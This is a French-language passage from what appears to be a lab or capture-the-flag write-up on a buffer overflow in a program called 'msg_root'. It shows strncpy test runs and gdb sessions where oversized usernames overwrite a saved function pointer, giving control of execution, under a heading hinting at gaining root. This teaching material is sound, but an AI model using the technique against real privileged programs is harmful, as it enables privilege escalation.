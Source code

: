 ```console
$ ./test 4 AAAA
Copie de 4 octets.
Copy: AAAAVVVVXXX.
s = XXX.
```

Sans pour autant qu'on écrase tout le reste (`strncpy` s'arrête tout de même sinon aucun intérêt) :  

```console
$ ./test 4 AAAAAA
Copie de 4 octets.
Copy: AAAAVVVVXXX.
s = XXX.
```

À partir de 12 on a un comportement original, car on écrase `s` et comme la chaîne n'est pas terminée elle lit des caractères dans `count` (et éventuellement du padding).  

```console
$ ./test 12 AAAAAAAAAAAA
Copie de 12 octets.
Copy: AAAAAAAAAAAA
                  .
s = AAAA
        .
```

G0tr00t ?
---------

Revenons à nos moutons en appliquant tout ça au programme qui nous intéresse. D'abord on teste avec un utilisateur de 17 caractères :  

```console
sh-4.2$ gdb -q ./msg_root 
Reading symbols from msg_root...done.
(gdb) r `python -c "print 'A'*17"` test
Starting program: msg_root `python -c "print 'A'*17"` test

Program received signal SIGSEGV, Segmentation fault.
0x00414141 in ?? ()
```

On a bien écrasé `saved_msg` (mais seulement en partie, car `strcpy` a ajouté un octet nul) et le programme a tenté de sauter à cette adresse.  

Maintenant testons avec 18 caractères (ou plus).  

```
(gdb) r `python -c "print 'A'*25"` test
Starting program: msg_root `python -c "print 'A'*25"` test

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Idem sauf qu'on écrase totalement le pointeur de fonction. On a donc le contrôle potentiel du flux d'exécution du programme.  
